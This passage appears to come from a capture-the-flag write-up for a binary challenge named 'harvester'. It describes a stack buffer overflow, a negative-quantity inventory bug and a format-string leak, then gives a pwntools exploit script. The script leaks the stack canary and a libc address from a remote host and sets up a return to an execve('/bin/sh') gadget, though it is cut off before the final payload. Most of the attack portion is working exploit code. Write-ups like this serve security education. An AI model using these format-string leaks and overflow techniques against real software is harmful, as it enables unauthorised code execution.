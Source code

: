 A stack buffer overflow vulnerability exists which allows us to overwrite `stare()`’s saved return pointer. The saved return pointer is 56 bytes from the end of the buffer. In order to reach this code branch, we need to leverage the Inventory vulnerability to drop -11 pies so that the user ends up with 21 pies. When Stare is called, an extra pie is added to our inventory, leaving us with 22 pies.

### Run

This simply exits the binary.

### Exploitation

We have everything we need to exploit the binary:

1.  Use Fight to leak the stack canary and a libc address. Calculate libc’s base address and get the offset of a `execve("/bin/sh")` gadget using the `one_gadget` tool.
2.  Use Inventory to drop -11 pies to get the 22 pies needed to enter the vulnerable code branch in Stare.
3.  Use Stare and send a large enough payload that overwrites the stack canary with the leaked canary, and overwrites the saved return pointer to return to the `execve()` gadget.

Here’s the final exploit:

```
#!/usr/bin/env python3

from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("harvester")
libc = ELF("libc.so.6")

r = remote("165.227.232.115", 30465)

# Use Fight to leak stack canary at position 11
r.recvuntil("> ")
r.sendline("1")
r.recvuntil("> ")
r.sendline("%11$p")
r.recvuntil("is: ")
canary = r.recvuntil("\n")[:18].decode("utf-8")
print("leaked stack canary:", canary)

# Use Fight to leak a libc address at position 21
r.sendline("1")
r.recvuntil("> ")
r.sendline("%21$p")                             # leaks __libc_start_main+231
r.recvuntil("is: ")
libc_leak = r.recvuntil("\n")[:14].decode("utf-8")
print("leaked libc address:", libc_leak)

libc.address = int(libc_leak, 16) - 138231      # offset of __libc_start_main+231
print(f"libc base: 0x{libc.address:2x}")

# Use Inventory to increase pies to 21
r.sendline("2")
r.recvuntil("> ")
r.sendline("y")
r.recvuntil("> ")
r.sendline("-11")                               # drop -11 pies
r.recvuntil("> ")

# Use Stare to exploit buffer overflow
r.sendline("3")
r.recvuntil("> ")

```